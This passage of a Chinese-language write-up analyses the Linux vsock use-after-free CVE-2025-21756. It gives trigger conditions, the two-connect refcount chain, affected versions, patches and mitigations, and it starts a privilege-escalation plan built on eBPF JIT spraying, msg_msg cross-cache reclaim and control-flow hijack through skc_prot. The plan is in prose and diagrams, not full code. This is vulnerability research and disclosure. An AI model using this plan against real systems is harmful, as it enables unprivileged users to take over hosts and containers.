CONFIG_VSOCKETS_LOOPBACK=y
CONFIG_VIRTIO_VSOCKETS=y
CONFIG_VIRTIO_VSOCKETS_COMMON=y
```

`CONFIG_VSOCKETS` 是基础，缺少它时 `socket(AF_VSOCK, ...)` 会直接返回 `-EAFNOSUPPORT`，路径无从建立。`CONFIG_VSOCKETS_LOOPBACK` 让 loopback transport 可用，是第一次 connect 能够绑定 transport 的前提。`CONFIG_VIRTIO_VSOCKETS` 与 `CONFIG_VIRTIO_VSOCKETS_COMMON` 提供了 `virtio_transport_release()` 与 `virtio_transport_do_socket_init()`，它们是 release 调用链上的两个关键函数。

除此之外，socket 与网络子系统的基础选项（`CONFIG_NET`、`CONFIG_SYSVIPC` 等）也需具备，但这些在通用内核中通常默认启用，不构成额外限制。

SLUB 分配器的几项保护措施并不影响漏洞的触发。它们作用于回收阶段的稳定性，而且各自影响的缓存范围不同：

- **`CONFIG_RANDOM_KMALLOC_CACHES`** 只作用于**通用 `kmalloc-*` 系列缓存**，把走 `kmalloc()` 路径的分配分散到多个随机子缓存中。`msg_msg` 不受它影响：6.11 之后 `msg_msg` 由独立的 `msg_msg-2k` 缓存提供，走 `kmem_cache_alloc()` 路径；6.11 之前则由 `kmalloc-cg-2k` 提供，属于 cgroup 感知的独立缓存族，同样不由通用 `kmalloc()` 服务。
- **`CONFIG_SHUFFLE_PAGE_ALLOCATOR`** 打乱 buddy 分配器的空闲链表顺序，使 order-3 页面的重用不再严格遵循 LIFO。它作用于**页级别的回收顺序**，与具体 slab 缓存无关。
- **`CONFIG_SLAB_FREELIST_RANDOM`** 打乱 slab 内部的空闲对象顺序，作用于**同一 slab 内对象槽位的排列**，对 `AF_VSOCK` 与 `msg_msg-2k` 都生效。
- **`CONFIG_SLAB_FREELIST_HARDENED`** 加固 freelist 指针，防止通过悬垂指针直接操控空闲对象链，对 `AF_VSOCK` 与 `msg_msg-2k` 都生效。

这些措施会降低回收阶段的成功率，但不会阻断漏洞路径——链条在到达 UAF 写之前的所有步骤仍可完整执行。

#### 2-6-2. 权限与环境

漏洞的触发完全通过标准 socket 系统调用完成，不需要任何特殊权限。具体来说：

- **不需要 `CAP_NET_ADMIN`**：`vsock_bind()` 只对保留端口区（`port <= LAST_RESERVED_PORT`）要求 `CAP_NET_BIND_SERVICE`。exploit 使用的是 `VMADDR_PORT_ANY` 触发的自动绑定，不会进入该检查。
- **不需要用户命名空间**：vsock 的 CID 与端口空间在初始命名空间内即可操作。
- **不需要物理设备访问**：loopback transport 由内核模块提供，不依赖实际的 virtio 设备。
- **不需要 KVM 或虚拟机环境**：loopback transport 在裸机内核上同样可用。

因此在启用了 vsock 子系统的环境中，本地普通用户即可触发。

#### 2-6-3. 端口预留

第一次 connect 的自动绑定必须失败，套接字才能停留在 unbound 链表上。实现这一点的关键是把静态 `port` 计数器覆盖的 24 个候选端口全部占满。

具体做法是在第一次 connect 之前，用 24 个 vsock socket 绑定 listener 端口之后的连续 24 个端口：

- 绑定一个 listener，用 `getsockname()` 获取它的实际 CID 与端口 P0；
- 用 24 个 `bound_fds[]` socket 依次绑定到 `P0+1` 到 `P0+24`；
- 关闭 listener 本身，但保留 `bound_fds[]` 的绑定。

这样，当第一次 connect 进入 `__vsock_bind_connectible()` 的探测循环时，静态 `port` 计数器从 `P0+1` 开始，每次探测都命中一个已占用的端口，24 次迭代全部失败，函数返回 `-EADDRNOTAVAIL`。循环本身不是目的，真正的副作用是静态 `port` 计数器被推进到 `P0+25`。

`bound_fds[]` 的数量需要恰好覆盖 `MAX_PORT_RETRIES`（24）。少于 24 会让探测在预留区间内找到空闲端口，第一次 connect 成功，链条无法继续；多于 24 则会挤占 `P0+25` 及之后的端口，使第二次 connect 的探测同样失败。

#### 2-6-4. 两次 connect 序列

整个触发链条的核心是两次 connect。两次调用的参数、前置状态与结果都不相同，缺一不可。

**第一次 connect** 的目标 CID 指向 listener 所在的本地 CID。此时 `vsk->transport` 为 NULL，`vsock_assign_transport()` 只完成 loopback transport 的绑定，release 分支不触发。随后进入自动绑定，因端口耗尽返回 `-EADDRNOTAVAIL`，错误路径经 `release_sock()` 返回。`release_sock()` 不触碰 `sk_refcnt`，因此套接字仍存活，`sk_refcnt = 2`，仍挂在 unbound 链表上。这次 connect 的关键作用有三点：绑定 loopback transport、把套接字留在 unbound 链表上、把静态 `port` 计数器推进到 `P0+25`。

**第二次 connect** 的目标 CID 切换为 `VMADDR_CID_HOST`。此时 `vsk->transport` 已非 NULL，且与新选择的 transport 不同，`vsock_assign_transport()` 的 release 分支被触发。旧 transport 的 `release()` 沿 `virtio_transport_release()` → `virtio_transport_remove_sock()` → `vsock_remove_sock()` 路径进入，完成第一次 `sock_put()`，`sk_refcnt` 从 2 降到 1。随后进入自动绑定，静态 `port` 计数器已在 `P0+25`，首次探测即命中空闲端口，`__vsock_bind_connectible()` 继续执行末尾的迁移操作，完成第二次 `sock_put()`，`sk_refcnt` 从 1 降到 0，对象释放。紧随其后的 `__vsock_insert_bound()` 对悬垂的 `vsk` 执行 `sock_hold()` 与 `list_add()`，构成 UAF 写。

两次 connect 之间的耦合关系是：第一次 connect 的失败不仅让套接字停留在 unbound 链表上，也把静态 `port` 计数器推进到预留区间之外。第二次 connect 的自动绑定成功恰恰依赖这一副作用。如果第一次 connect 的自动绑定意外成功，套接字会进入 bound 链表，第二次 connect 的 release 分支虽然仍会触发，但 `vsock_remove_sock()` 的行为会不同——此时套接字确实在 bound 链表上，`__vsock_in_bound_table()` 守卫的判断是正确的，不会造成错误的引用递减。

#### 2-6-5. 条件汇总

| 层面           | 条件                                   | 缺少时的后果                                |
| -------------- | -------------------------------------- | ------------------------------------------- |
| 内核配置       | `CONFIG_VSOCKETS` 等 vsock 相关选项    | 无法创建 vsock 套接字                       |
| 运行时权限     | 本地普通用户                           | 无需任何特权                                |
| 端口预留       | 24 个 `bound_fds[]` 覆盖 `P0+1..P0+24` | 第一次 connect 成功，链条无法进入           |
| 第一次 connect | 目标为本地 CID                         | `vsk->transport` 未绑定，release 分支不触发 |
| 第二次 connect | 目标为 `VMADDR_CID_HOST`               | release 分支不触发，无第一次 `sock_put()`   |

以上条件构成完整的触发前提。任何一项缺失都会导致链条在对应环节中断，无法到达 UAF 写。SLUB 分配器的保护措施虽然影响后续跨缓存回收的稳定性，但不属于触发条件本身——它们决定的是回收阶段的成功率，而不是链条能否走到那一步。

### 2-7. 触发流程

本节按执行时序展开整个触发链条，从 socket 创建到 UAF 写，逐步说明每个阶段的状态迁移与关键副作用。整个流程分为六个阶段，前五个阶段构成触发链条，第六个阶段是 UAF 发生后的直接表现。

#### 2-7-1. 流程总览

触发链条跨越一次 socket 创建、两次 connect、一次引用计数归零以及一次 UAF 写。可以用下面这张状态迁移图概括：

```
   socket()               第一次 connect          第二次 connect
   vsock_create           autobind 失败           transport 重分配
        |                       |                       |
   sk_refcnt = 2 -------------> 2 --------------------> 1 --------------------> 0
        |                       |                       |                       |
   slab: AF_VSOCK            AF_VSOCK                AF_VSOCK                 freed
        |                       |                       |                       |
   list: unbound             unbound                 unbound                  dangling
        |                       |                       |                       |
   port: P0+1                P0+25                   P0+25                    P0+25
        |                       |                       |                       |
   transport: NULL           loopback                loopback -> NULL          --
```

链条上有三个关键的状态转折点：第一次 connect 把套接字绑定到 loopback transport 并停留在 unbound 链表上；第二次 connect 的 release 分支完成第一次引用递减；第二次 connect 的自动绑定成功完成第二次引用递减并触发 UAF 写。

#### 2-7-2. 准备阶段

##### 2-7-2-1. socket 创建

进程调用 `socket(AF_VSOCK, SOCK_STREAM, 0)` 进入 `vsock_create()`。内核从 `AF_VSOCK` 专用 slab 缓存中分配一个新的 `struct vsock_sock`，`sock_init_data_uid()` 把 `sk_refcnt` 初始化为 1，随后 `vsock_insert_unbound()` 通过 `sock_hold()` 把 `sk_refcnt` 提升到 2，并把套接字挂到 unbound 链表上。

此时套接字的状态为：

- `sk_refcnt = 2`（fd 引用 + 链表引用）；
- `vsk->transport = NULL`；
- `vsk->local_addr = (VMADDR_CID_ANY, VMADDR_PORT_ANY)`；
- 挂于 unbound 链表。

##### 2-7-2-2. 端口预留

为了让第一次 connect 的自动绑定失败，需要预先占满静态 `port` 计数器覆盖的 24 个候选端口。具体步骤：

1. 创建一个 listener socket，绑定到 `VMADDR_CID_ANY` / `VMADDR_PORT_ANY`；
2. 用 `getsockname()` 获取 listener 的实际 CID 与端口 P0；
3. 依次创建 24 个 `bound_fds[]` socket，绑定到 `P0+1` 到 `P0+24`；
4. 关闭 listener 本身，但保留 `bound_fds[]` 的绑定。

这些 socket 在 `AF_VSOCK` slab 中占据独立的槽位，但它们的唯一作用是把端口空间占满。整个预留过程完成后，静态 `port` 计数器停在 `P0+1`，等待第一次 connect 时被推进。

##### 2-7-2-3. holder 布局

为了让 victim 所在的 order-3 slab 页能够被完整释放，需要在 victim 前后各分配一批 holder socket，占据该页上的其他对象槽位。具体做法是在创建 victim 之前分配一批 holder，在创建 victim 之后再分配另一批 holder。这样 victim 就处于两个 holder 批次的中间，其所在的 slab 页被 exploit 完全控制。

#### 2-7-3. 第一次 connect

第一次 connect 的目标 CID 指向 listener 所在的本地 CID。调用从 `vsock_connect()` 进入，主要经过三个关键步骤。

##### 2-7-3-1. transport 绑定

`vsock_assign_transport()` 检查到 `vsk->transport` 为 NULL，跳过 release 分支，只执行新 transport 的 init 钩子。由于目标 CID 指向本地，`vsock_use_local_transport()` 返回 true，选中的 transport 是 `transport_local`（loopback）。`virtio_transport_do_socket_init()` 分配 per-transport 上下文并与 vsock_sock 双向绑定：

- `vsk->transport = transport_local`；
- `vsk->trans = vvs`；
- `vvs->vsk = vsk`。

此步骤不触碰 `sk_refcnt`。

##### 2-7-3-2. 自动绑定失败

进入 `vsock_auto_bind()` 后，由于 `vsk->local_addr` 尚未绑定，走 `__vsock_bind()` → `__vsock_bind_connectible()` 路径。探测循环从静态 `port` 计数器当前值 `P0+1` 开始，每次迭代把 `port` 递增并检查该端口是否已被占用：

```
static port = P0+1
     |
     v
probe P0+1  -> bound_fds[0]   命中
probe P0+2  -> bound_fds[1]   命中
...
probe P0+24 -> bound_fds[23]  命中
循环结束，found = false
static port = P0+25
返回 -EADDRNOTAVAIL
```

24 次探测全部命中预留端口，函数返回 `-EADDRNOTAVAIL`，不会到达末尾的迁移操作。循环本身虽然失败，但每次迭代都执行了 `port++`，使静态计数器从 `P0+1` 被推进到 `P0+25`。这个副作用是第二次 connect 成功的关键前提。

##### 2-7-3-3. 错误路径返回

`connect()` 错误路径落到 `out:` 标签，执行 `release_sock(sk)`。该函数只处理 socket lock 相关事务——排空 backlog、运行 release_cb、释放 socket 所有权、唤醒等待者——对 `sk_refcnt` 完全没有触及。

第一次 connect 结束时，套接字的状态为：

- `vsk->transport = transport_local`；
- `vsk->local_addr` 仍为 `(VMADDR_CID_ANY, VMADDR_PORT_ANY)`；
- `vsk->bound_table` 仍挂在 unbound 链表上；
- `sk_refcnt = 2`；
- 静态 `port` 计数器已推进到 `P0+25`。

套接字没有进入 bound 链表，也没有进入已连接状态，但已经绑定了 loopback transport。

#### 2-7-4. 第二次 connect

第二次 connect 的目标 CID 切换为 `VMADDR_CID_HOST`。这次调用是触发链条的核心，包含两个引用递减与一次 UAF 写。

##### 2-7-4-1. transport 重分配

`vsock_assign_transport()` 检查到 `vsk->transport` 非 NULL，且与新选择的 transport（`transport_g2h`）不同，进入 release 分支。旧 transport 的 `release()` 钩子沿以下调用链进入：

```
vsk->transport->release(vsk)
  └── virtio_transport_release()
        └── virtio_transport_remove_sock()
              └── vsock_remove_sock()
                    └── vsock_remove_bound()
                          └── __vsock_remove_bound()
                                ├── list_del_init(&vsk->bound_table);
                                └── sock_put(&vsk->sk);        /* 2 -> 1 */
```

`virtio_transport_close()` 由于套接字从未到达 `TCP_ESTABLISHED`（`sk_state` 仍为 `TCP_CLOSE`），首个判断直接返回 true，release 流程继续向下。

`vsock_remove_bound()` 的守卫 `__vsock_in_bound_table()` 只检查 `bound_table` 字段是否为空。套接字当前挂在 unbound 链表上，该字段非空，守卫通过，`__vsock_remove_bound()` 执行：

- `list_del_init(&vsk->bound_table)` 把套接字从 unbound 链表上摘除；
- `sock_put(&vsk->sk)` 把 `sk_refcnt` 从 2 降到 1。

这是链条上第一次错误的引用递减。

随后 `vsock_deassign_transport()` 清空 transport：

- 调用 transport 的 destruct 钩子；
- 释放模块引用计数；
- 把 `vsk->transport` 置回 NULL。

此时套接字仍存活，`sk_refcnt = 1`。

##### 2-7-4-2. 自动绑定成功

transport 重分配完成后，`vsock_connect()` 再次调用 `vsock_auto_bind()`。由于 `vsk->local_addr` 仍是 `(VMADDR_CID_ANY, VMADDR_PORT_ANY)`，继续进入 `__vsock_bind_connectible()`。静态 `port` 计数器现在位于 `P0+25`，探测循环的第一次迭代即命中空闲端口：

```
static port = P0+25
     |
     v
probe P0+25 -> __vsock_find_bound_socket() 返回 NULL
       found = true, break on iteration 1
```

`__vsock_find_bound_socket()` 遍历 `P0+25` 哈希到的 bucket，由于预留端口只覆盖 `P0+1..P0+24`，bucket 中没有任何节点匹配 `P0+25`，函数返回 NULL。`found` 变为 true，循环立即 break。

##### 2-7-4-3. 第二次 sock_put 与 UAF

`__vsock_bind_connectible()` 继续执行末尾的迁移操作。先记录最终地址：

```c
vsock_addr_init(&vsk->local_addr, new_addr.svm_cid, new_addr.svm_port);
```

随后进入两行的迁移操作：

```c
__vsock_remove_bound(vsk);
__vsock_insert_bound(vsock_bound_sockets(&vsk->local_addr), vsk);
```

`__vsock_remove_bound()` 内部的 `sock_put()` 执行第二次递减，`sk_refcnt` 从 1 降到 0，触发完整的释放链：

```
sock_put(&vsk->sk)
  └── sk_free(sk)
        └── __sk_free(sk)
              └── sk_destruct(sk)
                    └── vsock_sk_destruct(sk)
                          ├── __skb_queue_purge(&sk->sk_error_queue);
                          ├── vsock_deassign_transport(vsk);
                          ├── vsock_addr_init(&vsk->local_addr, ...);
                          └── put_cred(vsk->owner);
```

对象回到 `AF_VSOCK` slab 缓存。但 `__vsock_bind_connectible()` 不会因为这次释放而提前返回，其下一条语句 `__vsock_insert_bound()` 仍然使用悬垂的 `vsk`：

```
__vsock_insert_bound(vsock_bound_sockets(...), vsk)
  ├── sock_hold(&vsk->sk);                /* 对已释放对象递增，触发 refcount_t 告警 */
  └── list_add(&vsk->bound_table, list);  /* 向已释放内存写入链表指针 */
```

- `sock_hold(&vsk->sk)` 通过 `refcount_inc()` 对已释放的引用计数再次递增，触发内核的 `refcount_t: addition on 0; use-after-free` 告警；
- `list_add(&vsk->bound_table, list)` 向已释放对象的内存写入链表指针。

这就是 UAF 写的实际发生点。

#### 2-7-5. 状态迁移汇总

整个触发链条上的状态迁移可以汇总为下表：

| 阶段                            | 触发点                 | `sk_refcnt` | `transport`     | 链表位置          | 备注                       |
| ------------------------------- | ---------------------- | ----------- | --------------- | ----------------- | -------------------------- |
| socket 创建                     | `vsock_create`         | 2           | NULL            | unbound           | 初始状态                   |
| 端口预留                        | `bound_fds[]`          | --          | --              | --                | 静态 port 停在 P0+1        |
| 第一次 connect                  | `vsock_auto_bind`      | 2           | loopback        | unbound           | 静态 port 推进到 P0+25     |
| 第二次 connect（release）       | `vsock_remove_sock`    | 2 → 1       | loopback → NULL | unbound → unbound | 第一次错误的递减           |
| 第二次 connect（autobind）      | `__vsock_remove_bound` | 1 → 0       | NULL            | unbound → --      | 第二次错误的递减，对象释放 |
| 第二次 connect（autobind 末尾） | `__vsock_insert_bound` | 0 → 1       | --              | -- → dangling     | UAF 写                     |

#### 2-7-6. KASAN 报告

UAF 写的直接表现是 KASAN 报告的 slab-use-after-free：

```
BUG: KASAN: slab-use-after-free in __vsock_bind+0x62e/0x730
Read of size 4 at addr ffff88816b46a74c by task a.out/2057
refcount_t: addition on 0; use-after-free.
```

报告同时给出了三个关键信息：

- **函数位置**：`__vsock_bind` 内部，对应 `__vsock_insert_bound()` 的调用点；
- **对象状态**：`slab-use-after-free`，表明对象已被释放；
- **引用计数**：`addition on 0`，表明 `sock_hold()` 对已归零的引用计数执行了递增。

#### 2-7-7. 触发流程小结

触发链条的本质是**两次 connect 之间的状态差异**被利用。第一次 connect 让套接字停留在 unbound 链表上并绑定 loopback transport，同时把静态端口计数器推进到预留区间之外。第二次 connect 触发 transport 重分配，让引用计数在错误路径上被递减两次——第一次通过 release 路径，第二次通过自动绑定路径——最终把引用计数降到零并释放对象，紧随其后的 `__vsock_insert_bound()` 对悬垂指针执行操作，构成 UAF。

链条的每一环都不可或缺：

- 端口预留让第一次自动绑定失败，套接字才能停留在 unbound 链表上；
- loopback transport 让第二次 connect 触发 release 分支，产生第一次 `sock_put()`；
- 静态 `port` 计数器被推进到 `P0+25`，让第二次自动绑定成功，产生第二次 `sock_put()`；
- `__vsock_remove_bound()` 与 `__vsock_insert_bound()` 之间没有检查点，让释放后的悬垂指针被继续使用。

缺少任何一环，链条都会在对应位置中断，无法到达 UAF 写。

### 2-8. 影响范围

#### 2-8-1. 受影响版本区间

漏洞由 `c0cfa2d8a788`（"vsock: add multi-transports support"）引入，Linux 5.5 起合入主线，因此受影响版本下界为 **5.5**。修复提交为 `fcdd2242c023`（"vsock: Keep the binding until socket destruction"）。

```
>= 5.5   < 5.10.235
>= 5.11  < 5.15.179
>= 5.16  < 6.1.131
>= 6.2   < 6.6.79
>= 6.7   < 6.12.16
>= 6.13  < 6.13.4
```

#### 2-8-2. 发行版修复情况

| 发行版                   | 修复版本                           | 官方来源          |
| ------------------------ | ---------------------------------- | ----------------- |
| Ubuntu 24.10 (oracular)  | `6.11.0-1008.8`                    | Ubuntu 安全公告   |
| Ubuntu 24.04 LTS (noble) | `6.8.0-58.60.1`                    | Ubuntu 安全公告   |
| Ubuntu 22.04 LTS (jammy) | `5.15.0-1082.91`                   | Ubuntu 安全公告   |
| Debian                   | `5.10.237-1`（oldstable-security） | Debian 追踪系统   |
| SUSE SLE 15 SP6          | `bsc#1245795`                      | SUSE 安全更新公告 |
| Red Hat                  | RHSA-2025:8056 / RHSA-2025:7676 等 | Red Hat 安全公告  |

Ubuntu 20.04 focal 已进入 "Ignored end of standard support" 状态，不再接收常规安全更新。Amazon Linux 2 的 Kernel-5.4 Extra 分支因内核版本低于 5.5，评估为 "Not Affected"。

#### 2-8-3. 实际风险判定

内核版本落在受影响区间并不自动意味着可被触发。实际风险需同时满足：

- 版本在受影响区间内；
- 内核编译时开启了 `CONFIG_VSOCKETS` 及相关选项；
- 运行时 vsock 模块已加载或已编入内核。

缺少后两者时，`socket(AF_VSOCK, ...)` 直接失败，漏洞路径无法建立。

#### 2-8-4. 风险等级

NVD 与 SUSE 给出的 CVSS v3.1 评分为 **7.8（HIGH）**，向量 `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`。EGI SVG 进一步将该漏洞对基础设施的风险等级评估为 **CRITICAL**，理由是该漏洞虽然仅能本地触发，但对于共享的 Grid Worker Node 与用户接口而言，本地限制不构成有效缓解；且该驱动在未进行任何虚拟化配置的宿主机上也能找到。

#### 2-8-5. 缓解措施

在无法立即部署修复内核时，可通过以下措施降低暴露面。这些措施不能替代内核更新。

**禁用 vsock 模块**

EGI SVG 明确建议禁用受影响的驱动作为充分缓解措施。在 `/etc/modprobe.d/` 下新增配置文件：

```
blacklist vsock
blacklist vsock_loopback
blacklist vmw_vsock_virtio_transport
blacklist vmw_vsock_virtio_transport_common
```

若 vsock 已编译进内核（`CONFIG_VSOCKETS=y`），黑名单无效，需要在启动参数中加入 `vsock.blacklist=1` 或在编译期关闭相关选项。

**限制本地访问**

在无法禁用模块时，可限制非受信用户或容器访问 vsock：

- 通过 AppArmor 或 SELinux 策略阻止普通用户进程执行 `socket(AF_VSOCK, ...)`；
- 在容器运行时中禁用 vsock 设备节点，或通过 seccomp 过滤器拦截 `AF_VSOCK` 请求；
- 收紧 `/dev/vhost-net` 与 `/dev/vhost-vsock` 的权限，仅允许受信虚拟化服务访问。

需要注意的是，设备节点权限收紧只限制宿主机侧控制路径，**不能**缓解 guest 到 host 的利用路径。

### 2-9. 总结

**CVE-2025-21756** 是一个由引用计数管理缺陷引发的释放后重用漏洞。其根因在于 `vsock_remove_sock()` 在 transport 重分配路径上无条件调用 `vsock_remove_bound()`，而后者内部的守卫 `__vsock_in_bound_table()` 无法区分套接字当前挂在 bound 链表还是 unbound 链表，导致引用计数被错误递减两次。

触发这条错误链需要两次 `connect()` 调用。第一次 connect 让套接字绑定 loopback transport 并停留在 unbound 链表上，同时把静态 `port` 计数器推进到预留区间之外；第二次 connect 触发 transport 重分配，先在 release 路径上完成第一次 `sock_put()`，再在自动绑定成功后被末尾的迁移操作完成第二次 `sock_put()`，从而释放对象并在同一块内存上继续执行。两次 connect 之间存在一种耦合：第一次 connect 的失败是第二次 connect 自动绑定成功的前提，而自动绑定成功又是触发第二次 `sock_put()` 的必要条件。缺少任何一环，链条都会在对应环节中断。

被释放的 `vsock_sock` 对象提供了两个可供后续使用的切入点。其一是位于偏移 0x28 的 `skc_prot` 指针，它指向 `struct proto` 函数指针表，为单点劫持提供了可能——只要伪造该指针，就能接管 `vsock_release()` 中 `sk->sk_prot->close()` 的分发路径。其二是 `vsock_sock` 所处的 `AF_VSOCK` slab 缓存，它为对象替换提供了可能——通过跨缓存回收把被释放的 slab 页重新定型为 `msg_msg-2k` 对象，即可在被释放的槽位上精确写入伪造指针。

在控制流转移目标的选择上，本分析采用了 Kernel One Gadget 技术。该技术利用 eBPF JIT 编译器生成的内核侧 one gadget，通过预先喷射 JIT 映像并将伪造的 `skc_prot` 指向预测地址，使控制流直接进入一段完整的可执行载荷，从而避免了对额外信息泄露原语与完整 ROP 链的依赖。在模块 KASLR 已知的前提下，该思路能够稳定命中。

从设计角度看，这一案例反映出一个更普遍的问题：**同一个数据结构字段被复用于多条语义不同的链表时，仅凭该字段是否为空来判断对象所处的状态是不够的**。围绕这一根本问题，代码中形成了三点具体缺陷：

- `__vsock_in_bound_table()` 只检查 `bound_table` 是否为空，无法区分套接字究竟挂在哪条链表上；
- `vsock_remove_sock()` 在 transport 重分配路径上无条件调用 `vsock_remove_bound()`，未考虑套接字可能仍处于未绑定状态；
- `__vsock_remove_bound()` 与 `__vsock_insert_bound()` 被设计为一对安全的迁移操作，但当引用计数在两者之间归零时，这一假设不再成立。

修复补丁针对第一点缺陷引入了 `SOCK_DEAD` 守卫，同时调整了 `sock_orphan()` 在 `__vsock_release()` 中的调用顺序，使正常销毁路径不受影响。这一对协同改动的方式提示：在修复此类缺陷时，既需要阻断漏洞路径上的错误操作，也需要保证合法路径上的原有行为不受影响。

从更广的视角看，该漏洞的触发完全通过标准 socket 系统调用完成，不需要任何特殊权限，因此对多租户环境、容器场景与共享宿主机具有较高的现实风险。其利用链本身也展示了一条典型路径：从一处引用计数失误出发，经过跨缓存回收与 CPU entry area 伪造，最终以 eBPF JIT 载荷完成控制流转移。链条中的每一环都依赖内核的既有机制，而非某一处孤立的弱点——这也意味着同类漏洞的检测与修复需要在多个子系统层面协同考虑。

## 3. 利用思路

### 3-1. 整体架构设计

本方案以第 2 章分析得到的 UAF 为起点，围绕"页级回收 + 对象替换 + 控制流接管"三个环节展开。方案在进程模型上分为三个角色：main 负责主要的堆布局与触发动作，worker 负责 CPU entry area 的伪造表布置，watcher 负责检测 core_pattern 变化并触发崩溃。三者通过四条管道通信，通过 CPU 亲和划分竞争边界。

main 在阶段 00 到 05 期间绑定 CPU 0，与 worker 共享 SLUB 的 per-CPU freelist，使得受害者释放的 slab 页可以被同一 CPU 上的 `msg_msg` 回收。阶段 06 之后 main 迁移到 CPU 1，把 CPU 0 让给 worker 的 #PF 循环。watcher 从启动起就绑定 CPU 1，避免与 worker 争抢 CPU 0。

四条管道的分工如下：

| 管道               | 方向           | 用途                             |
| ------------------ | -------------- | -------------------------------- |
| `worker_cmd_pipe`  | main → worker  | 发送 jit_addr 与 CMD_CEA_GO      |
| `worker_ack_pipe`  | worker → main  | 回传 CPU entry area payload 地址 |
| `watcher_cmd_pipe` | main → watcher | 发送 CMD_WATCH_GO                |
| `watcher_ack_pipe` | watcher → main | 预留 ack 通道                    |

整个方案分为七个阶段，各阶段之间通过管道传递状态，通过 CPU 亲和避免竞争。下面的序列图给出全局视图，后续各节按阶段逐一展开。



### 3-2. 阶段 0：环境初始化

进入任何堆布局或喷射动作之前，先把进程的运行环境调整到方案所需的状态。这一步的核心是提升 `RLIMIT_NOFILE` 到硬上限，因为 JIT 喷射阶段会刻意保留数千个 socket fd 存活；如果不提前提升限制，喷射到中途会因 EMFILE 失败，整个方案无法继续。随后建立三条进程间通信管道（worker 命令、worker 应答、watcher 命令），并额外建立 watcher_ack 管道作为扩展预留。管道就绪后 fork 出 worker 与 watcher，父进程立即关闭不属于自己的管道端，避免持有写端导致其他进程的 `read()` 永远阻塞。



worker 在 fork 之后立刻读取 CPU entry area 的基址。这一步依赖 `sgdt` 指令，必须在 CPU 0 上执行；读取后通过 `worker_ack_pipe` 把地址回传给 main。main 在后续阶段用该地址构造伪造的 `skc_prot` 指针，因此这条管道是方案的关键同步点之一。watcher 则在绑定 CPU 1 之后阻塞在 `watcher_cmd_pipe` 上，直到阶段 07 才被唤醒。

### 3-3. 阶段 1：eBPF JIT 映像喷射

方案后续需要把控制流从内核态转移到一段由方案自身控制的可执行代码上。最直接的路径是借助内核的 eBPF JIT 编译器生成可执行映像。JIT 映像位于模块区，其内容由方案构造，但加载基址受 KASLR 随机化影响。模块区的随机偏移范围有界，因此可以通过批量喷射来覆盖整个范围，使得预测地址始终落在某条映像内部。

每条 eBPF 程序的长度恰好对应一个内核页。程序头部是大段 NOP 指令（由 `BPF_ALU | BPF_NEG` 编译为 `neg eax`，在错位入口下解码为 `fdiv st(7)` 并继续滑入下一条指令），尾部是实际载荷。控制流只要落入 NOP sled 内的任意位置，就会滑向载荷。3000 条程序足以覆盖模块区可能出现的所有偏移。



喷射完成后，main 计算出一个预测的载荷地址并保存到 `ctx.jit_addr`。该地址是后续阶段构造 `skc_prot->close` 目标时使用的值。方案不依赖对 KASLR 随机偏移的精确预测，而是依赖映像的密集覆盖；即使预测偏移与实际偏移存在一定误差，也不会影响方案的成功率。

### 3-4. 阶段 2：消息队列预创建

阶段 05 会用 `msg_msg` 对象重新占据被释放的 order-3 slab 页，而 `msg_msg` 的分配依赖 System V 消息队列作为容器。每条队列在喷射阶段只承载一条消息，因此队列数量即为喷射容量上限。把队列创建与喷射分离的原因在于：队列创建动作本身会在内核中分配 `struct msg_queue` 等对象，若与喷射动作混合在一起，可能干扰阶段 05 的堆布局。提前把队列全部创建好，可以让喷射阶段专注于单一动作。

`msg_msg` 对象所在的内核缓存在不同版本间存在差异：Linux 6.11 之前，`msg_msg` 从通用的 `kmalloc-cg-2k` 缓存分配；从 6.11 起（commit `734bbc1c97ea`，"ipc, msg: Use dedicated slab buckets for alloc_msg()"），内核为 `msg_msg` 引入了专用缓存 `msg_msg-2k`。两种缓存的 slab 页大小都是 order-3，因此后续阶段的跨缓存回收策略对两者都适用。本文后续统一使用 `msg_msg-2k` 这一名称。



队列数量 `MSG_QUEUE_NUM` 是喷射容量的上限。方案在阶段 05 向每条队列发送一条消息，从而在 `msg_msg-2k` 缓存中制造大量分配请求。这些请求会促使 slab 分配器向 buddy 申请新的 order-3 页，其中极有可能包含刚刚被 `AF_VSOCK` 归还的同一物理页。

### 3-5. 阶段 3：vsock 受害者布局

阶段 04 需要触发一个页级的对象释放，这要求受害者对象所在的整个 slab 页都被本进程控制。`struct vsock_sock` 位于专用的 `AF_VSOCK` slab 缓存中，该缓存的 slab 页是 order-3，容量固定。方案通过精心排列受害者与其前后的持有者，使整个页上不存在其他进程的对象。

布局过程中还需要耗尽端口空间。方案在 `vsock_listener_init()` 中先绑定一个 ephemeral listener，再逐一占用其相邻端口，直到 `MAX_PORT_RETRIES` 个端口全部被占满。这一步是阶段 04 中第一次 connect 失败的前提：`__vsock_bind_connectible()` 的探测循环在 24 次迭代中全部命中已占用端口，返回 `-EADDRNOTAVAIL`，同时把静态 `port` 计数器推进到预留区间之外。



持有者在创建后不做 bind，因此它们停留在 unbound 链表上。这一点是后续整页释放的前提：`AF_VSOCK` 的 slab 页只有在所有对象都被释放后才会归还给 buddy allocator。持有者与受害者都是通过 `socket()` 分配的同类型对象，因此它们会被 SLUB 分配器紧凑地排列在相邻的槽位上。

### 3-6. 阶段 4：构造 UAF

阶段 04 是整个方案中最关键的一步，它通过两次 connect 调用把受害者对象的引用计数递减至 0，同时把包含受害者的整个 order-3 slab 页归还给 buddy allocator。

第一次 connect 请求 listener 的本地 CID。`vsock_assign_transport()` 发现 `vsk->transport` 为 NULL，跳过 release 分支，只完成 loopback transport 的绑定。随后 `vsock_auto_bind()` 进入端口探测，24 次探测全部命中预留端口，返回 `-EADDRNOTAVAIL`。错误路径经 `release_sock()` 返回，该函数不触碰 `sk_refcnt`，因此引用计数保持为 2。此时套接字停留在 unbound 链表上，但已经绑定了 loopback transport。第一次 connect 的关键副作用是静态 `port` 计数器被推进到 `P0+25`，落在预留区间之外。

第二次 connect 请求 `VMADDR_CID_HOST`。`vsock_assign_transport()` 发现 `vsk->transport` 非空且与新 transport 不同，进入 release 分支。旧 transport 的 release 钩子沿 `virtio_transport_release()` → `virtio_transport_remove_sock()` → `vsock_remove_sock()` 路径进入 `vsock_remove_bound()`。守卫 `__vsock_in_bound_table()` 只判断 `bound_table` 是否为空，对挂在 unbound 链表上的套接字同样返回 true，因此 `__vsock_remove_bound()` 执行，完成第一次 `sock_put()`，引用计数从 2 降到 1。

